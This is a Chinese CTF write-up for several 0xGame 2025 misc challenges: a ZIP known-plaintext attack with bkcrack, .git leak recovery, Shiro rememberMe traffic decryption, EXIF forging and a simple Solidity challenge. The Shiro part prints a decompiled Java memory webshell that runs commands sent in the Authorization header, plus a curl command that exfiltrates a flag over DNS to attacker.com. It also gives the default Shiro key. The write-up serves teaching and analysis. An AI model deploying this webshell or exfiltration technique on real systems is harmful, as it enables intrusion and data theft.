我们会用到的部分知识是png有固定的魔数头：`89 50 4E 47 0D 0A 1A 0A 00 00 00 0D 49 48 44 52`

<img src="/assets/img/0xgame2025teching.assets/20251013231154_006.webp" alt="image-20251007130940004" style="zoom:50%;" />

可以说，所有正常的png文件头，前面这16字节一定是一样的，分别是文件魔数标志以及IHDR数据块的名称，大家可以自己动手看看

接下来说说明文攻击实现的利用方法

> 关于明文攻击的实现原理，可以参考这位佬的博客文章https://flandre-scarlet.moe/blog/1685/

简单说明，实现zip明文攻击的前提分别是：

- 压缩包的压缩方式必须是ZipCrypto加密（deflate或Store模式均可）
- 必须已知8字节的连续明文和对应偏移，进行恢复密钥，然后还需要4字节明文参与密钥验证，4字节明文可以与8字节明文不连续，明文知道越多，解密速度越快

正常而言，我们使用bkcrack工具进行明文攻击居多

#### how to solve

- step 1

我们先使用-L查看压缩包的详细信息，发现它们是ZipCrypto加密方式的Store压缩模式，然后观察到里面就两个文件，其中一个就是我们需要利用的png

```
$ bkcrack -L attachment.zip
bkcrack 1.8.0 - 2025-08-18
Archive: attachment.zip
Index Encryption Compression CRC32    Uncompressed  Packed size Name
----- ---------- ----------- -------- ------------ ------------ ----------------
    0 ZipCrypto  Store       e7b7038a           80           92 flag.txt
    1 ZipCrypto  Store       04a6dc2d     10149855     10149867 huiliyi.png
```

- step 2

接下来我们需要想办法创造bkcrack可以利用的明文（显然不能用上面你们直接看到的8950啊，这个是给我们看的，但是给bkcrack看的话，就要用源数据处理

```
$ echo 89504E470D0A1A0A0000000D49484452 | xxd -r -ps >pngheader
$ cat pngheader
�PNG
␦
IHDR
```

- step 3

接下来是直接开始明文攻击，简单说明，-C指定的是加密压缩包，-c指定了我们明文攻击利用的文件（我们已知部分明文的文件），-p指定的是我们要利用的明文

这里没有给指定偏移，完全是因为我们利用的明文是png文件头，bkcrack会默认从文件头也就是偏移量0开始进行攻击，如果需要指定偏移，需要使用-o

```
$ bkcrack -C attachment.zip -c huiliyi.png -p pngheader
bkcrack 1.8.0 - 2025-08-18
[13:59:25] Z reduction using 9 bytes of known plaintext
100.0 % (9 / 9)
[13:59:25] Attack on 728540 Z values at index 6
Keys: cdc564be 5675041f 719adb56
25.0 % (181808 / 728540)
Found a solution. Stopping.
You may resume the attack with the option: --continue-attack 181808
[14:00:09] Keys
cdc564be 5675041f 719adb56
```

- step 4

接下来就是拿第三步得到的keys进行解密，读取flag，有多种方式

```
bkcrack -C attachment.zip -k cdc564be 5675041f 719adb56 -U flag.zip 123456
```

上述方式是将压缩包的密码改成123456重新打包，这样我们就用自己设置的密码解压即可

```
bkcrack -C attachment.zip -k cdc564be 5675041f 719adb56 -c flag.txt -d flag.txt && cat flag.txt
```

这个方式是直接将压缩包里面的文件进行提取，直接读

上面两个都差不多，要用到keys的，所以step2和3是我们进行明文攻击的关键

这里的明文攻击真的好有意思的，我为大家准备了一个稍微进阶的明文攻击题目，可以尝试解答下

[附件下载链接](https://www.ilanzou.com/s/OO9NiHas)

```text
前面的不知道，后面的也不知道，就只知道这几个明文字符，你有办法恢复出来吗？
0xGame{6?????????????mast??????????}
```

### 删库跑路

本题考察的是.git文件泄露，这个文件夹很关键，在后面学习信息搜集、渗透、或挖漏洞的时候，如果能拿到这个文件夹，那就赚了，因为里面包含项目的更改记录，完整文件内容也在里面呢。有的时候出题师傅会将flag编辑后，更新过仓库再删除，那么flag完全可以通过日志被恢复出来

因为.git文件夹里面的数据存储是zilb压缩，所以也不涉及解密什么的操作,给出一个解密照片

<img src="/assets/img/0xgame2025teching.assets/20251013231154_007.webp" alt="image-20251013212734416" style="zoom:50%;" />

但是为了更加方便快捷，直接按照仓库更新进行文件恢复，挺建议使用工具GitTools,项目地址https://github.com/internetwache/GitTools

<img src="/assets/img/0xgame2025teching.assets/20251013231154_008.webp" alt="image-20251007160318175" style="zoom:50%;" />

Look here，发现前后只有两次更新仓库

直接锁定main.py

<img src="/assets/img/0xgame2025teching.assets/20251013231154_009.webp" alt="image-20251007160427444" style="zoom:50%;" />

这里就是考察了下大家的代码审计能力，很轻松的，先进行凯撒加密，然后进行xor异或，最后是base64编码，我们解密的时候只需要倒过来操作即可

<img src="/assets/img/0xgame2025teching.assets/20251013231154_010.webp" alt="image-20251007162040142" style="zoom: 33%;" />

```python
#经供参考
import base64
xor_key=0x66
caser_shift=114514

def xor_bytes(data:bytes,key:int)->bytes:
	return bytes(b^key for b in data)

def caser_decrypt(text:str,shift:int) -> str:
	result=[]
	for char in text:
		if 'A' <=char<='Z':
			result.append(chr((ord(char)-ord('A')-shift)%26+ord('A')))
		elif 'a' <=char<='z':
			result.append(chr((ord(char)-ord('a')-shift)%26+ord('a')))

		else:
			result.append(char)
	return ''.join(result)

def main_decrypt():
	with open('output','r',encoding='ascii') as f:
		content=f.read().strip()
	step3_bytes=base64.b64decode(content.encode('ascii'))
	step2_bytes=xor_bytes(step3_bytes,xor_key)
	step2_str=step2_bytes.decode('utf-8')
	flag=caser_decrypt(step2_str,caser_shift)

	print(flag)

if __name__=="__main__":
	main_decrypt()
```

### ezShiro

> 基础的shiro流量解密还有dns记录

#### how to solve

下次遇到流量分析中出现rememberMe的时候，应当想到shiro加密流量，下面我仅仅讲述解题步骤

推荐在线工具https://potato.gold/navbar/tool/shiro/ShiroTool.html

*原理我会在最下面简单讲讲*

首先追踪第一个http流

<img src="/assets/img/0xgame2025teching.assets/20251013231155_011.webp" alt="image-20251007213345141" style="zoom:50%;" />

会看到很长的请求包

<img src="/assets/img/0xgame2025teching.assets/20251013231155_012.webp" alt="image-20251007213849145" style="zoom:50%;" />

将对应的Cookie复制到在线工具中，然后输入密钥`kPH+bIxk5D2deZiIxcaaaA==`（这是一种约定俗成或者说是默认的密钥，下次遇到这类题，如果密钥不对，那么可能考察的是密钥爆破，具体的问题可以自行研究

![image-20251007213827153](/assets/img/0xgame2025teching.assets/20251013231152_000.webp)

最下面出现了反编译的结果

```java
package com.summersec.x;

import java.util.Scanner;
import java.util.List;
import java.lang.reflect.Field;
import org.apache.shiro.codec.Base64;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;

public class Test422640791304000 extends AbstractTranslet
{
    private static void writeBody(final Object o, final byte[] array) throws Exception {
        final byte[] bytes = new StringBuffer().append("$$$").append(Base64.encodeToString(array)).append("$$$").toString().getBytes();
        try {
            final Class forName = Class.forName("org.apache.tomcat.util.buf.ByteChunk");
            final Object instance = forName.newInstance();
            forName.getDeclaredMethod("setBytes", byte[].class, Integer.TYPE, Integer.TYPE).invoke(instance, bytes, new Integer(0), new Integer(bytes.length));
            o.getClass().getMethod("doWrite", forName).invoke(o, instance);
        }
        catch (final Exception ex) {
            final Class forName2 = Class.forName("java.nio.ByteBuffer");
            o.getClass().getMethod("doWrite", forName2).invoke(o, forName2.getDeclaredMethod("wrap", byte[].class).invoke(forName2, bytes));
        }
    }
    
    private static Object getFV(final Object o, final String s) throws Exception {
        Field declaredField = null;
        Class clazz = o.getClass();
        while (clazz != Object.class) {
            try {
                declaredField = clazz.getDeclaredField(s);
                break;
            }
            catch (final NoSuchFieldException ex) {
                clazz = clazz.getSuperclass();
            }
        }
        if (declaredField == null) {
            throw new NoSuchFieldException(s);
        }
        declaredField.setAccessible(true);
        return declaredField.get(o);
    }
    
    public Test422640791304000() throws Exception {
        boolean b = false;
        final Thread[] array = (Thread[])getFV(Thread.currentThread().getThreadGroup(), "threads");
        for (int i = 0; i < array.length; ++i) {
            final Thread thread = array[i];
            if (thread != null) {
                final String name = thread.getName();
                if (!name.contains("exec") && name.contains("http")) {
                    final Object fv = getFV(thread, "target");
                    if (fv instanceof Runnable) {
                        Object fv2;
                        try {
                            fv2 = getFV(getFV(getFV(fv, "this$0"), "handler"), "global");
                        }
                        catch (final Exception ex) {
                            continue;
                        }
                        final List list = (List)getFV(fv2, "processors");
                        for (int j = 0; j < list.size(); ++j) {
                            final Object fv3 = getFV(list.get(j), "req");
                            final Object invoke = fv3.getClass().getMethod("getResponse", (Class[])new Class[0]).invoke(fv3, new Object[0]);
                            final String s = (String)fv3.getClass().getMethod("getHeader", String.class).invoke(fv3, new String("Host"));
                            if (s != null && !s.isEmpty()) {
                                invoke.getClass().getMethod("setStatus", Integer.TYPE).invoke(invoke, new Integer(200));
                                invoke.getClass().getMethod("addHeader", String.class, String.class).invoke(invoke, new String("Host"), s);
                                b = true;
                            }
                            final String s2 = (String)fv3.getClass().getMethod("getHeader", String.class).invoke(fv3, new String("Authorization"));
                            if (s2 != null && !s2.isEmpty()) {
                                final String decodeToString = Base64.decodeToString(s2.replaceAll("Basic ", ""));
                                writeBody(invoke, new Scanner(new ProcessBuilder(System.getProperty("os.name").toLowerCase().contains("window") ? new String[] { "cmd.exe", "/c", decodeToString } : new String[] { "/bin/sh", "-c", decodeToString }).start().getInputStream()).useDelimiter("\\A").next().getBytes());
                                b = true;
                            }
                            if (b) {
                                break;
                            }
                        }
                        if (b) {
                            break;
                        }
                    }
                }
            }
        }
    }
}
```

审计代码后，发现这个Java🐎就干了这些事

**Header 检测:**

- 代码尝试获取 **`Host`** 头部，如果存在，则返回 `200` 状态码和 `Host` 头部，作为**连通性/身份验证**的信号。
- 代码尝试获取 **`Authorization`** 头部。

**命令执行:**

- `Base64.decodeToString(s2.replaceAll("Basic ", ""))`: 对 `Authorization` 头部的值进行 **Base64 解码**，这个解码后的字符串就是攻击者想要执行的**操作系统命令**。
- `new ProcessBuilder(...) .start()`: 根据操作系统（Windows 使用 `cmd.exe /c`，其他使用 `/bin/sh -c`），执行解码后的命令。
- **回显 (`writeBody`):** 命令执行的结果（`InputStream`）被读取，然后通过 **`writeBody`** 方法写入到 HTTP **响应体**中。
  - `writeBody` 通过反射调用容器的内部方法 (`doWrite`)，将结果用 `$$$...$$$` 封装后 **Base64 编码**发送回攻击者。

说简单点，就是hacker的命令会在Authorization部分，然后回显会用$$$...$$$包裹，里面的重要信息全用base64编码

下面我图上标注的够清晰了吧

![image-20251007215907167](/assets/img/0xgame2025teching.assets/20251013231153_001.webp)

> 如果对于上面的代码审计部分感觉很吃力，可以暂时放放，毕竟这个题不是一定要解密内存马才能解决的，发现上面的规律就能继续解题

流量包不多，解密的时候会看到这个的

```bash
~$ echo Y3VybCAkKGNhdCAvZmxhZyB8IHJldiB8IHRyICdBLVphLXonICdOLVpBLU1uLXphLW0nIHwgYmFzZTY0IHwgdHIgLWQgJ1xuJykuYXR0YWNrZXIuY29t | base64 -d
curl $(cat /flag | rev | tr 'A-Za-z' 'N-ZA-Mn-za-m' | base64 | tr -d '\n').attacker.com
```

这个命令的意思是访问一个子域名，然后域名的前缀是用一系列命令得到的：

`cat flag->rev(翻转输出)->进行rot13移位->base64编码->删除换行符`

解密就倒着来即可，先说说密文在哪里

我们观察到命令执行后，目标服务器上**没有产生完整的 HTTP 或 TCP 连接流量**，这表明数据没有通过传统信道（如 HTTP 回显）返回。

这是因为在流量抓包中，流量协议会将访问某个子域名的流量定义为dns流量，就是说服务器访问域名的时候，需要先本地进行dns解析，然后才能进行后续的交互，hacker就是利用这一点，将密文给用dns流量传递出来了

<img src="/assets/img/0xgame2025teching.assets/20251013231155_013.webp" alt="image-20251007221525697" style="zoom:50%;" />

```
fTBlMXVGX2dmaFd7cnpuVGswCg==
```

解密脚本

<img src="/assets/img/0xgame2025teching.assets/20251013231156_014.webp" alt="image-20251007222539796" style="zoom:50%;" />

有个更轻松的方法

```bash
$ echo fTBlMXVGX2dmaFd7cnpuVGswCg== | base64 -d | tr 'A-Za-z' 'N-ZA-Mn-za-m' | rev
0xGame{Just_Sh1r0}
```

#### 一些拓展...

> 关于shiro反序列化漏洞的原理以及一步一步解密，对大家来说较难，所以不做要求，可以看看

首先要对Apache shiro反序列化漏洞利用有所了解（通常被称为 **Shiro-550** 和 **Shiro-721** 漏洞）

该漏洞的核心在于 Apache Shiro 框架的 **“Remember Me”**（记住我）功能。

当用户勾选“记住我”登录时，Shiro 会执行以下操作：

1. 将用户的身份信息（一个实现了 `Serializable` 接口的对象，如 `Principal`）进行 **Java 序列化**。
2. 对序列化后的数据进行 **AES 加密**。
3. 对密文进行 **Base64 编码**。
4. 将最终的 Base64 字符串作为 **`rememberMe` Cookie** 的值发送给客户端。

当客户端带着这个 `rememberMe` Cookie 访问服务器时，服务器会执行逆向操作：**Base64 解码 → AES 解密 → Java 反序列化**。

攻击者利用的就是中间的AES加密密钥和最后的Java反序列化过程，来rce执行命令

> 如果上面有疑惑的话，对本题影响不大，推荐这个[webshell工具](https://github.com/SummerSec/ShiroAttack2)，可以玩玩

总之，这里的解密过程就是Base64→ AES → Java 反序列化

然后我们需要一些关键信息，比如说AES的密钥，在早期shiro框架，这个密钥是默认固定的`kPH+bIxk5D2deZiIxcaaaA==`,在正常解密shiro流量时，我们还需要尝试爆破密钥，但在本题中，直接拿来用即可

然后还需要aes加密的iv向量，默认是base64解码后的前16个字节

```python
import base64
from Crypto.Cipher import AES
import os

def decrypt_data(encrypted_b64, key_b64):
    try:

        encrypted_data = base64.b64decode(encrypted_b64)
        print(f"Base64解码后数据长度: {len(encrypted_data)} 字节")

        key = base64.b64decode(key_b64)
        print(f"AES密钥长度: {len(key)} 字节")

        iv = encrypted_data[:16]
        print(f"IV (十六进制): {iv.hex()}")

        actual_encrypted_data = encrypted_data[16:]
        print(f"实际加密数据长度: {len(actual_encrypted_data)} 字节")

        cipher = AES.new(key, AES.MODE_CBC, iv)

        decrypted_data = cipher.decrypt(actual_encrypted_data)

        unpadded_data = unpad_pkcs7(decrypted_data)
        
        return unpadded_data
        
    except Exception as e:
        print(f"解密过程中出现错误: {e}")
        return None

def unpad_pkcs7(data):

    padding_length = data[-1]
    return data[:-padding_length]

def save_to_file(data, filename):

    try:
        with open(filename, 'wb') as f:
            f.write(data)
        print(f"解密结果已保存到: {filename}")
        return True
    except Exception as e:
        print(f"保存文件时出现错误: {e}")
        return False

def main():
    encrypted_b64 = input("请输入base64编码的加密数据: ").strip()
    key_b64 = input("请输入base64格式的AES密钥: ").strip()
    output_filename = input("请输入输出文件名(默认: decrypted_result.bin): ").strip()
    
    if not output_filename:
        output_filename = "decrypted_result.bin"
    print("开始解密...")
    decrypted_data = decrypt_data(encrypted_b64, key_b64)
    
    if decrypted_data is not None:
        print(f"\n解密成功!")
        print(f"解密数据长度: {len(decrypted_data)} 字节")
        print(f"解密数据前16字节(十六进制): {decrypted_data[:16].hex()}")

        try:
            text_output = decrypted_data.decode('utf-8')
            print(f"文本内容预览: {text_output[:100]}...")
        except:
            print("解密结果包含二进制数据，无法显示为文本")

        if save_to_file(decrypted_data, output_filename):
            print(f"\n文件已保存为: {output_filename}")
        else:
            print("文件保存失败")
    else:
        print("解密失败")

if __name__ == "__main__":
    main()
```

这是解密后得到的文件

```bash
$ file decrypted_result.bin
decrypted_result.bin: Java serialization data, version 5
```

可以看出，这是Java序列化文件，是个二进制文件，不好分析，我们只能先通过反序列化处理，但是也就是这一点最难

> 可惜我还没学会这种文件的分析处理~~（在学了，在学了~~
>
> ~~所以还是回到那个在线解密工具吧~~

~~在线shiro解密工具https://potato.gold/navbar/tool/shiro/ShiroTool.html~~

学会咯，感谢spreng，他教会我怎么处理一个Java序列化文件

![thanks](/assets/img/0xgame2025teching.assets/thanks.gif)

首先，我们可以在序列化文件中提取class，这一步难度不大，python脚本可以实现

```python
import javaobj


def putsMessage(obj):
    print(f"类: {obj.classdesc}")
    print(f"注解: {obj.annotations}")
    print(
        f"私有属性: {[i for i in dir(obj) if i.startswith('_') and not i.startswith('__')]}"
    )
    print(f"公有属性: {[i for i in dir(obj) if not i.startswith('_')]}")


with open("decrypted_result.bin", "rb") as f:

    parser = javaobj.JavaObjectUnmarshaller(f)
    try:
        obj = parser.readObject()
        putsMessage(obj)
        putsMessage(obj.annotations[1])

        print(len(obj.annotations[1]._bytecodes[0]))
        with open("shiro_payload_output.class", "wb") as f2:
            for i in obj.annotations[1]._bytecodes[0]:
                f2.write(int.to_bytes((i + 256) % 256, 1))

    except EOFError:
        print("文件解析完成")
```

接着，我们需要使用crf.jar进行反编译（神器，如果找不到，下载[我的crf](https://www.alipan.com/s/1n8e679GWu5)

```bash
java -jar cfr.jar shiro_payload_output.class > output.java
```

反编译出来的结果很清晰

![image-20251008113818934](/assets/img/0xgame2025teching.assets/20251013231153_003.webp)

![image-20251008113835006](/assets/img/0xgame2025teching.assets/20251013231153_004.webp)

一些必要的细节都有

> 由于设备差异吧，我上面用脚本提取class的时候，代码已经足够清晰了，甚至下面的crf操作也仅仅是换了个变量名的样子，对了，我用的python库的名称是javaobj-py3

### ezEXIF

> 信息伪造题目，涉及一定的图片宽高修改

先说说图片宽高吧，由于这些都是“规定”（别问我为啥是这样昂

#### 图片宽高更改

- png
- - 首先用010锁定ihdr块，然后手动编辑，width对应的宽度，height对应的高度，更改数字即可

<img src="/assets/img/0xgame2025teching.assets/20251013231156_015.webp" alt="image-20251008000130599" style="zoom:50%;" />

- jpg
- - 用010锁定sof0数据块，图片的宽高在这里控制，同样直接更改数字，然后保存即可

<img src="/assets/img/0xgame2025teching.assets/20251013231156_016.webp" alt="image-20251008000417847" style="zoom:50%;" />

- gif
- - 用010查看LogicalScreenDescriptor，下面的Width和Height控制的就是宽高

<img src="/assets/img/0xgame2025teching.assets/20251013231156_017.webp" alt="image-20251008000700068" style="zoom:50%;" />

> 上面的三种宽高更改，某种意义上，其实并不一样，比方说png改变宽高，仅仅是对应的画面消失，然而其他部分没有改变，jpg的话，一旦更改宽高，哪怕很细微，对图片的损伤也很大，里面的原由，希望大家能在学习对应的文件结构时，留意下细节，比如说png是一种流加密存储......

#### exif信息篡改

不得不说，exiftool工具最好用

```
exiftool -Make="Hacker" \
		 -Model="Kali linux" \
		 -DateTimeOriginal#="9999:99:99 66:66:66" \
		 -Description="motto:I can be better!"\
		 00.png
```

再将宽高更改后，提交就能拿到flag

<img src="/assets/img/0xgame2025teching.assets/20251013231156_018.webp" alt="image-20251008002544489" style="zoom:50%;" />

### ezChain

> 最简单的上链，主要是想让新生理解区块链题目怎么上手，部署合约

正常来说，解决区块链题目，我们会至少拿到四个重要信息

第一个是rpc链，大部分题目应该是部署私链上进行的，需要进行网络配置

第二个是合约地址，这是我们完成挑战必须拿到的重要信息

第三个是水龙头，我们需要通过出题人提供的水龙头获取部分测试币，合约部署还有交易等，都需要gas费用，但是本题不太一样，会提供一个私钥，题目会自动给这个私钥的账户上充1eth,足够后面的部署等费用了

最后就是关键的挑战合约了，sol语法难易上还好，就那几个常用的，多见就会读会写了

#### how to solve

> 下面举例用这个环境进行

<img src="/assets/img/0xgame2025teching.assets/20251013231157_019.webp" alt="image-20251008004607202" style="zoom:33%;" />

```python
RPC_URL = "http://47.122.65.230:48334/65a7edf6-c415-4105-a26b-36f70f7913e6"
PRIVKEY = "fa7d264c487617dc552c2f0186111d321fc380762673e2ea6ce4973205ee9992"
SETUP_CONTRACT_ADDR = "0x074688F8E6f147502450B36f5eAa7CC3c3BAbA35"
WALLET_ADDR = "0x75248DebE8531030d4CDe342A5eBE8E7De5F4778"
```

- 一些准备

首先需要在浏览器上安装**`metamask`**插件，几乎每家浏览器都有这个的

![image-20251008003645578](/assets/img/0xgame2025teching.assets/20251013231153_005.webp)

接下来就是注册，创建新钱包，这些不做截图

- 配置rpc

第一次登录，会自动连接以太主网，有两个方式：

- - 使用魔法

<img src="/assets/img/0xgame2025teching.assets/20251013231157_020.webp" alt="image-20251008004207827" style="zoom: 25%;" />

点击左上角的Ethereum Mainnet,会进入选择网络的功能，选择添加自定义网络

- - 等待一会儿

出现切换网络.jpg(没截图)

点击后，弹窗样子和上面的那个图片是一样的

<img src="/assets/img/0xgame2025teching.assets/20251013231157_021.webp" alt="image-20251008004542515" style="zoom:50%;" />

<img src="/assets/img/0xgame2025teching.assets/20251013231157_022.webp" alt="image-20251008004720374" style="zoom:50%;" />

这里随便填，没出现红色就没错

<img src="/assets/img/0xgame2025teching.assets/20251013231157_023.webp" alt="image-20251008004823736" style="zoom:50%;" />

关于这里的链ID，你随便输入1个数字，会自动弹出正确的链id，就长这样，改回去即可

<img src="/assets/img/0xgame2025teching.assets/20251013231157_024.webp" alt="image-20251008004913872" style="zoom: 50%;" />

最后保存了，才算rpc配置成功

- 使用私钥添加用户

<img src="/assets/img/0xgame2025teching.assets/20251013231157_025.webp" alt="image-20251008005042952" style="zoom:50%;" />

<img src="/assets/img/0xgame2025teching.assets/20251013231157_026.webp" alt="image-20251008005104166" style="zoom:50%;" />

<img src="/assets/img/0xgame2025teching.assets/20251013231157_027.webp" alt="image-20251008005131514" style="zoom:50%;" />

将private key复制进去，导入即可，可以看到，已经有初始余额1ctf了

<img src="/assets/img/0xgame2025teching.assets/20251013231158_028.webp" alt="image-20251008005238744" style="zoom:50%;" />

- 部署合约

接下来需要使用在线ide - [remix](https://remix.ethereum.org/)

metamask在哪个浏览器，就在哪个浏览器上访问

新建个sol文件，将题目下发的Setup.sol复制进去，文件名也要一样的喔，这里设计合约里面的合约名，总之就是要一样

<img src="/assets/img/0xgame2025teching.assets/20251013231158_029.webp" alt="image-20251008005856453" style="zoom:50%;" />

然后进行编译，部署

<img src="/assets/img/0xgame2025teching.assets/20251013231158_030.webp" alt="image-20251008005943306" style="zoom:50%;" />

<img src="/assets/img/0xgame2025teching.assets/20251013231158_031.webp" alt="image-20251008010105311" style="zoom: 50%;" />

这里进行部署，需要先设置环境，选中浏览器插件-->Injected Provider-MetaMask会自动关联当前钱包用户以及对应网络，然后再将合约地址复制过来，粘贴到At Address中，点击即可（要大致理解，我们的挑战合约应该部署到题目下发的那个地址，不然我们要是成功了，题目怎么判定呢？



{% raw %}
```liquid
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.0;

contract Setup {
    bool private solved;
    string private constant WINNING_PHRASE = "welcome_to_0xGame2025";

    constructor() payable {
    }

    function solve(string memory phrase) public {
        if (keccak256(abi.encodePacked(phrase)) == keccak256(abi.encodePacked(WINNING_PHRASE))) {
            solved = true;
        } else {
            revert("Setup: Incorrect phrase.");
        }
    }

    function isSolved() external view returns (bool) {
        return solved;
    }

    receive() external payable {}
}
```
{% endraw %}




- 审计合约完成挑战

读完挑战合约，就考察了一点，就是选手需要提交一个字符串`welcome_to_0xGame2025`，只有这样，才能让solved返回true，才算完成了挑战（真的是简单上链吧，算是0xgame2025teching.assets的一个签到题

<img src="/assets/img/0xgame2025teching.assets/20251013231158_032.webp" alt="image-20251008011336047" style="zoom:50%;" />

<img src="/assets/img/0xgame2025teching.assets/20251013231158_033.webp" alt="image-20251008011354650" style="zoom:50%;" />

> 这是区块链上最最基础的知识（没有涉及任何区块链安全，区块链还是很有意思的，在国外赛事或国内大型赛事中会经常看到blockchain，这个赛道相对来说，确实很新很难，如果大家后面打算专攻misc，可以对区块链研究一二，相信会有人体会到区块链的魅力的

<div align="left">
<img src="/assets/img/0xgame2025teching.assets/20251013231159_034.webp" alt="完结撒花" style="width:30%;">
</div>

